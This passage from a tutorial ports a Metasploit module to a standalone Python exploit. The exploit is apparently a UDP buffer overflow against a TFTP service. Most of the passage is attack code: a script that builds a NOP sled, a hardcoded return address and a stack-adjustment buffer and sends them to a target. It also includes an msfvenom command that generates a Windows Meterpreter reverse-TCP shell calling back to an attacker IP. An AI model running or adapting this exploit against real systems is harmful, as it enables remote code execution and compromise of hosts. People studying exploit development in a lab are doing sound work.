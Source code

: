 ```
import sys, socket
 
# Use in the form "filename.py <IP Address> <Port> <Your IP Address>"
 
host = sys.argv[1]		# Recieve IP from user
port = int(sys.argv[2])		# Recieve Port from user
 
exploit = ""			# Out future exploit location
 
client = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)	# Declare a UDP socket
client.sendto(exploit, (host, port))				# Send the exploit over UDP to the nominated addresses
```
Now from here a lot of the information is going to be straight translations from the ruby counterparts. This includes creating the appropriate sized NOPs and the return address, along with the information we know will be sent to set up the exploit itself. Let’s incorporate that into our framework.
``` 
import sys, socket
 
# Use in the form "python filename.py <Target IP Address> <Port> <Your IP Address>"
 
host = sys.argv[1]		# Recieve IP from user
lhost = sys.argv[3]
port = int(sys.argv[2])		# Recieve Port from user
 
ret = "\x53\x93\x42\x7e" 	# Return address - Source Metasploit (Little Endian)
nop = "\x90" * (25-len(lhost))	# Create a NOP string as to bring NOPs + LHOST up to 25 bytes
payload = "" 			# Payload to be calculated
 
exploit = "\x00\x02" + nop + payload + ret + "\x83\xc4\x28\xc3\x00netascii\x00" 	# Our exploit so far
 
client = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)	# Declare a UDP socket
client.sendto(exploit, (host, port))				# Send the exploit over UDP to the nominated addresses

Now we’ve got the known information we need to take the next step and factor in the stack adjustment for our staged payload.
```

**Stack Adjustment**

First we need to dump our payload into a raw hex file for further manipulation. Our payload in this case is going to be the meterpreter shell windows/meterpreter/reverse_nonx_tcp, chosen for it’s particularly small code footprint. We use the command,

```
msfvenom -p windows/meterpreter/reverse_nonx_tcp LHOST=192.168.0.106 LPORT=443 R > payload_name
```
![enter image description here](https://raw.githubusercontent.com/shubham381/Standalone/master/payload.png)
